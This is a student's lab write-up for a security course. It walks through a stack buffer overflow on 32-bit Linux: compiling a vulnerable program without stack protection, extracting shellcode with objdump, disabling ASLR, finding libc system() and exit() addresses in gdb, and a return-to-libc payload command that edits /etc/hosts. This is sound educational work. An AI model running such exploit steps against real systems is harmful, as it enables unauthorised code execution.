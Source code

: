 # Lab #1,21110058, CAO KHẢI MINH, INSE330380E_02FIE

# Task 1: **Software buffer overflow attack**
**Question 1**: Compile asm program and C program to executable code. 

\- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 

 You are free to choose Code Injection or Environment Variable approach to do. 

\- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

## **I. Set up the C program:**

### 1. Create a C file named `vuln.c`:
```sh
nano vuln.c
```
![image-20241104091628712](./SecLab/image-20241104091628712.png)<br>

After which use `crtl` +` o` to save ad `crtl`+`x` to exit.

### 3. Compile the newly written C file with `gcc`:

```sh
gcc vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2
```

</br>

## **II. Set up the NASM program:**

### 1. Create a NASM file named `lab1.nasm`:

```sh
nano attackCode.nasm
```

<img width="500" alt="Screenshot" src="https://github.com/CKMPeter/Information-Sec/blob/main/SecLab/attackCode.png?raw=true"><br>

After which use `crtl` +` o` to save ad `crtl`+`x` to exit.

### 2. **Compile and Link the newly written NASM file**:

#### a. Compile the file:

```sh
nasm -f elf32 -o lab1.o lab1.nasm
```

**`-f elf32`**: This flag specifies the output format. In this case, it's generating a 32-bit **ELF**

**`-o attackCode.o`**: This specifies the output file's name. The resulting object file will be named `attackCode.o`

</br>

#### b. Link the file to an executable:

```sh
ld -m elf_i386 -o lab1 lab1.o
```

</br>

#### c. Generate the `shellcode` from the executable:

```sh
objdump -d lab1 | grep '[0-9a-f]:' | grep -oP '\s\K[0-9a-f]+' | tr -d '\n' | sed 's/\(..\)/\\x\1/g'
```

**`objdump -d attackCode`**:

- Disassembles the binary file (`attackCode`) and shows its assembly instructions along with their corresponding machine code (opcode).

**`grep '[0-9a-f]:'`**:

- Filters out the lines from `objdump` output that contain opcodes (which are hexadecimal values) by looking for lines that have a hexadecimal number followed by a colon (`:`). These are typically the lines with the memory addresses and opcodes.

**`grep -oP '\s\K[0-9a-f]+'`**:

- This command extracts the hexadecimal opcodes from the filtered lines using a regular expression.

- ```sh
  \s\K[0-9a-f]+
  ```

  `\s`: Looks for a space before the opcodes.

  `\K`: Ignores everything before the opcodes (the memory addresses).

  `[0-9a-f]+`: Matches one or more hexadecimal characters (i.e., the machine code).

**`sed 's/\(..\)/\\x\1/g'`**:

- Uses `sed` (stream editor) to format the opcodes as shellcode by adding `\x` before each byte.
- `s/\(..\)/\\x\1/g`: Matches every two hexadecimal characters (which make up a byte) and adds `\x` before them.

</br>

#### d. Total summary of process:

![image-20241104092251134](./SecLab/image-20241104092251134.png)

after running the `objdump` command you will get the shellcode to inject into the vuln program.

</br>

## III. EXECUTE THE ATTACK:

### 1. turn off ASLR (Address Space Layout Randomization):

![image-20241104092449640](./SecLab/image-20241104092449640.png)

### 2. create an environment variable in Linux with the path of file lab1.asm:

![image-20241104092724884](./SecLab/image-20241104092724884.png)

### 3. use gdb:

![image-20241104093358327](./SecLab/image-20241104093358327.png)

0xf7e50db0: Address of libc_system
0xf7e449e0: Address of exit to avoid crashing
0xffffd939: Address of env variable

### 4. Attack File:

```sh
r $(python -c "print(20*'a' + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x39\xd9\xff\xff')")
```

![image-20241104095520665](./SecLab/image-20241104095520665.png)

after doing, so you would use

```
sudo cat /etc/hosts 
```

to see the newly added host.

